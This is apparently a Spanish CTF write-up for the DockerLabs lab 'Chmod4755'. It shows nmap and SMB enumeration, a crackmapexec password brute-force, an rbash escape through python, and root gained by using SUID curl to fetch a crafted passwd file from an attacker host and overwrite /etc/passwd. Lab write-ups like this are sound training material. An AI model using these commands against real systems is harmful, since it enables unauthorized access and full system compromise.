 #MAQUINA #DOCKERLABS #MEDIO 
#ENUM4LINUX #CRACKMAPEXEC #SMBMAP 
#SMBCLIENT 

<hr>

# RECONOCIMIENTO

Vamos a resolver **Chmod4755** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 12:38 CET
Initiating ARP Ping Scan at 12:38
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:38, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:38
Scanning 172.17.0.2 [65535 ports]
Discovered open port 445/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 139/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:38, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-17 12:38:04 CET for 0s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto  el puerto **22(SSH)** , **139 y 445** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,139,445 172.17.0.2              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 12:38 CET
Nmap scan report for 172.17.0.2
Host is up (0.000017s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a8:62:07:af:8e:77:13:6d:25:0a:2f:43:63:de:38:38 (ECDSA)
|_  256 93:93:a8:35:0e:fa:3e:05:04:27:70:2e:fc:22:e8:99 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-03-17T11:39:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.44 seconds


```

   ```bash

enum4linux 172.17.0.2
 ========================================( Users on 172.17.0.2 )========================================
                                                                                                                                                                                          
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: smbuser  Name: smbuser   Desc:                                                                                                             

user:[smbuser] rid:[0x3e8]




```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.

## SMB (445)

Con enum4linux sacamos un usuario -> **smbuser**. Vamos a ver su contra :
```bash
crackmapexec smb 172.17.0.2 -u smbuser -p /usr/share/wordlists/rockyou.txt
SMB         172.17.0.2      445    4B7BFD5AC784     [+] 4B7BFD5AC784\smbuser:fuckit
```

Vamos a ver que podemos ver gracias a **smbmap**:

```bash
smbmap -H 172.17.0.2 -u smbuser -p fuckit                         

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445  Name: 172.17.0.2                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        share_secret_only                                       READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (4b7bfd5ac784 server (Samba, Ubuntu))
[*] Closed 1 connections
```
# EXPLOTACION

Usamos smbclient para conectarnos :
```bash
smbclient //172.17.0.2/share_secret_only -U smbuser
Password for [WORKGROUP\smbuser]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Sep  2 14:05:05 2024
  ..                                  D        0  Mon Sep  2 14:05:05 2024
  note.txt                            N       13  Mon Sep  2 14:05:05 2024

                229727556 blocks of size 1024. 190597460 blocks available
smb: \> get note.txt 
getting file \note.txt of size 13 as note.txt (130000.0 KiloBytes/sec) (average inf KiloBytes/sec)
```

Tenemos una nota.

```bash
cat note.txt                 

read better

```

Tras un rato, me fijo en que había un segundo usuario -> **rabol** que me devolvía el enum4linux.

Su contra es el nombre del directorio.

YA ESTAMOS COMO RABOL.

# ESCALADA PRIVILEGIOS

Nos encontramos ante una rbash, donde solo podemos usar python y ls.

Nos otorgamos una bash normal (sin restricciones):
```bash
python3 -c 'import os; os.system("/bin/bash")'

```

Seguimos sin poder ejecutar los archivos bien :
```bash
export PATH=/bin
```

Vemos archivos con permisos SUID :
```bash
rabol@4b7bfd5ac784:/$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/curl
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Modificamos el passwd, añadiendo un nuevo usuario con el directorio personal de root y sin necesidad de usar contra :

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
rabol:x:1001:1001:rabol,,,:/home/rabol:/bin/rbash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
smbuser:x:1000:1000:smbuser,,,:/home/smbuser:/bin/bash
newroot::0:0:newroot:/root:/bin/bash
```

Usamos curl :
```bash
rabol@4b7bfd5ac784:/tmp$ curl http://172.17.0.1:8000/newShadow -o /etc/passwd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1292  100  1292    0     0  1711k      0 --:--:-- --:--:-- --:--:-- 1261k
rabol@4b7bfd5ac784:/tmp$ su newroot
root@4b7bfd5ac784:/tmp# whoami
root
root@4b7bfd5ac784:/tmp# 
```

**YA ESTAMOS COMO ROOT.**
